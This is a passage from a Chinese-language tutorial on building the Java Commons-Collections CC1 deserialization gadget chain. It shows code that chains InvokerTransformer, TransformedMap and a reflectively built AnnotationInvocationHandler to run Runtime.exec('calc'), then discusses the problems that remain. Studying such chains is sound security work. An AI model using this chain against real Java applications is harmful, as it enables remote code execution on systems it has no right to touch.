 21.   **编写调用链**

      ```java
      // 原本调用
      public static void main(String[] args) throws Exception {
          Runtime runtime = Runtime.getRuntime();
          InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
          HashMap<Object, Object> hashMap = new HashMap<>();
          hashMap.put("key","value");
          Map<Object,Object> decorate = TransformedMap.decorate(hashMap,null,exec);
          for (Map.Entry entry:decorate.entrySet()){
              entry.setValue(runtime);
          }
      }
      
      // 新增后调用
      public static void main(String[] args) throws Exception {
          Runtime runtime = Runtime.getRuntime();
          InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
          HashMap<Object, Object> hashMap = new HashMap<>();
          hashMap.put("key","value");
          Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, exec);
          
      	// 通过反射拿到AnnotationInvocationHandler类的class
          Class<?> hander = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
          // 然后在拿到AnnotationInvocationHandler类的构造方法
          Constructor<?> handerConstructor = hander.getDeclaredConstructor(Class.class, Map.class);
          // 因为构造方法不是公有的，设置一下可访问
          handerConstructor.setAccessible(true);
          // 创建对象并传入一个注解的class，这里以Target为例
          Object o = handerConstructor.newInstance(Target.class, decorate);
      
          // 进行序列化
          serialize(o);
          unserialize();
      }
      ```

22.   **到这里，其他咋们还有两个问题没有解决，一个是执行`exec`方法需要一个`Runtime`对象，所以我们的`Runtime`对象应该是要作为setValue的参数传进去，才能最终执行方法，另一个问题就是上面的`Runtime`对象，它是我们方便测试命令自己写的，这个`Runtime`对象它是没有实现`Serializable`接口的**

      ```java
      for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
                  String name = memberValue.getKey();
                  Class<?> memberType = memberTypes.get(name);
                  if (memberType != null) {  // i.e. member still exists
                      Object value = memberValue.getValue();
                      if (!(memberType.isInstance(value) ||
                            value instanceof ExceptionProxy)) {
                          // 但是这里setValue的值是new AnnotationTypeMismatchExceptionProxy(),看样子控制不了
                          memberValue.setValue(
                              new AnnotationTypeMismatchExceptionProxy(
                                  value.getClass() + "[" + value + "]").setMember(
                                      annotationType.members().get(name)));
                      }
                  }
              }
      ```
